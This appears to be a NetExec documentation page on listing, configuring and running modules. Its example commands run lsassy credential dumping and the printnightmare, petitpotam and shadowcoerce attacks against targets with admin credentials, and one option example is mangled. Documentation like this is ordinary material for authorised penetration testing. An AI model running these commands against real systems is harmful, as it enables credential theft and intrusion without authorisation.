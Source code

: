 ```yaml
---
description: Using Module with NetExec
---
```


# Using Modules

## Using Modules

### Viewing Available Modules for a Protocol

Run `nxc <protocol> -L` to view available modules for the specified protocol.

For example to view all modules for the SMB protocol:

```bash
nxc smb -L
```

### Using a Module

Run `nxc <protocol> <target(s)> -M <module name>`.

For example to run the SMB Mimikatz module:

```bash
nxc smb <target(s)> -u Administrator -p 'October2022' -M lsassy
```

### Viewing Module Options

Run `nxc <protocol> -M <module name> --options` to view a modules supported options, e.g:

```bash
nxc smb -M lsassy --options
```

### Using Module Options

Module options are specified with the `-o` flag. All options are specified in the form of KEY=value (msfvenom style)

Example:

```bash
nxc <protocol> <target(s)> -u Administrator -p 'P@ssw0rd' -M lsassy -o COMMAND=xxxxxxxxug'
```

### 🆕 Running Multiple Modules

Simply define all the modules you want, each proceeded by a `-M` option flag:

`nxc <protocol> <target(s)> -u Administrator -p 'P@ssw0rd' -M spooler -M printnightmare -M shadowcoerce -M petitpotam`
